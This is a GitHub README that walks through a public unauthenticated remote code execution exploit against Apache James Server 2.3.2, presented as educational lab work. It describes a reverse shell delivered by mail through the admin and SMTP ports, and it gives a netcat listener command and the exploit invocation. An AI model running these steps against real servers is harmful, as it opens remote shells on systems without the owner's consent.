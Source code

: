 # Apache James Server 2.3.2 - Remote Code Execution (Unauthenticated)

> ⚠️ **Disclaimer**  
This repository is intended **strictly for educational and research purposes only**.  
The information and code provided here can be used in **controlled environments**, such as private lab machines.  
**Unauthorized use of this code against systems you do not own or have explicit permission to test is illegal and unethical.**  
The author is **not responsible** for any misuse or damages caused.

---

## 🔍 About the Vulnerability

This vulnerability affects **Apache James Server 2.3.2**, an enterprise-grade email and messaging solution written in Java.  
The issue allows **unauthenticated Remote Code Execution (RCE)** via exposed service ports.

The attacker exploits two services in sequence:
1. **Remote Administration Tool (default port: 4555)** – to create a new user  
2. **SMTP Service (default port: 25)** – to send a malicious email payload  
The payload is executed **once the victim logs into the system** (e.g., via SSH).

- **Vulnerability Type:** Unauthenticated RCE  
- **Affected Version:** Apache James Server 2.3.2  
- **Authentication Required:** ❌ No  
- **Severity:** Critical  
- **Exploit-DB ID:** [50347](https://www.exploit-db.com/exploits/50347)  
- **CVE:** _Unknown_ (not assigned)

---

## 📜 References

- [Exploit-DB – 50347](https://www.exploit-db.com/exploits/50347)  
- [Apache James GitHub](https://github.com/apache/james-project)  
- [James Server Documentation](https://james.apache.org/server/)

---

## 🛠️ Exploit Overview

The public exploit from Exploit-DB creates a malicious email that contains a reverse shell command. This is sent using a self-created user account via the exposed admin and SMTP interfaces.

📝 **Important:**  
Make sure to **modify the port numbers inside the exploit script** if your setup uses non-default ports for:
- Admin interface (default: 4555)
- SMTP service (default: 25)


---

## 💥 Exploit Usage
### Step 1: Start Netcat Listener

```bash
nc -nvlp 4444
```

### Step 2: Run the Exploit Script

```bash
python exploit.py <target-ip> <your-ip> <your-port>
```
Replace the IPs and port as per your environment.

✅ Make sure:

Apache James version is 2.3.2

Ports 4555 (admin) and 25 (SMTP) are open

You modify the exploit script if the ports are different

The reverse shell is triggered only after user login


---

## 💥 Demonstration

This exploit was tested in a **private lab setup** using a clean vulnerable instance of Apache James 2.3.2.

### 1. Detecting Apache James Services

An `nmap` scan reveals that the target server is running all James services.

![Apache Version](./apache_JAMES.png)

---

### 2. Running the Exploit Script

Command to execute the exploit:

```bash
python exploit.py <target-ip> <your-ip> <your-port>
```

![Exploit](./Exploit.png)

### 3. Reverse Shell Listener
Start a netcat listener on the attacker's machine:
```bash
nc -nvlp 4444
```
![Reverse Shell](./ReverseShell.png)

## Medium Blog
I’ve written a more in-depth explanation and walkthrough of this exploit on Medium:
👉 Read the blog on Medium